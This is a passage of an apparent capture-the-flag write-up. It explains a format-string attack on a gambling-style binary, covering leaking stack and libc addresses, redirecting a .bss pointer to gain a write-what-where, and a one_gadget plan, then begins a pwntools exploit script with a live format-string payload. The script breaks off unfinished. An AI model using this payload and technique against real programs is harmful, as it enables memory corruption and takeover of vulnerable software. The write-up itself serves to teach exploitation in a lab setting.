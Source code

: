 The most useful thing I can see around here is the offset 0x38, this is a heap pointer (player's object) that is pointing to a `.bss` pointer (money pointer), in the `.bss` resides the amount of money we have as a player.

So the obvious thing is, find something useful (some address in the warmup binary) to overwrite `.bss` pointer with using the string format attack so we can control it's value, the first thing that came to my mind was the `.GOT` table.

#### .GOT simple explanation:

A quick explanation for those who do not know what the `.GOT` is:

The `.GOT` segment contains pointers to function pointers of libc functions, this means if we overwrite one of those pointers we can change the address of a libc function for the given binary, (e.g. we overwrite the address of puts in the `.GOT` with a bunch of 'A', the next time puts will be called the binary will fail because there is no viable memory at address 0x4141414141414141, 0x41 is hex for 'A' ).



After wasting some time on this idea I figured out full relocation is enabled, so we cannot overwrite the .GOT, it's read only in memory, this was a very sad moment :(

When looking for a new Idea I came across the feedback buffer again, which contains a heap address that is stored in the `.bss`, this is perfect for us, we can change the money `.bss` address on the stack to the feedback `.bss` address, this way we can "bet" so we can change it's value (change it's address), and at the end of the program run when we provide feedback we will have Write-what-where with a size of 0x400!

Using the format string attack we can also leak heap addresses from the stack and stack addresses, this is a complete win!

The plan is to overwrite the "money" pointer with a pointer to the feedback `.bss` area, which contains another pointer within it, change this buffer using the "betting" system (should be easy after bruteforcing the seed) to the address of a return pointer on the stack and overwrite it with an address of a one_gadget!



### Writing exploit

I will be using the pwntools library throughout my exploit so get comfortable with it.

also, this code isn't supposed to look or be good, it's supposed to work, but any feedback will be appriciated!

```python
from pwn import *
from ctypes import *
import itertools

def main():
    port = 0 # port
    io = remote("addr", port)

    io.recvuntil("How much money you want?")
    # We want the biggest amount of money possible!
    io.sendline(str(0x8000000000000000-1)) 

	  io.recvuntil("Player name:")
    
    # Leak stack and libc addresses and overwrite `.bss` pointer, will explain in detail later!
    io.sendline("%88c%13$hhn|%10$p|%29$p")
    io.recvuntil("|")
    # Get rid of uneeded characters
    leak = io.recvuntil(" *").replace(b" ", b"").replace(b"*", b"") 
    
    # Get stack leak, convert to int and make sure it points to return address
    leak_stack = int(leak.split(b"|")[0],16)+0x38
    # Get libc leak
```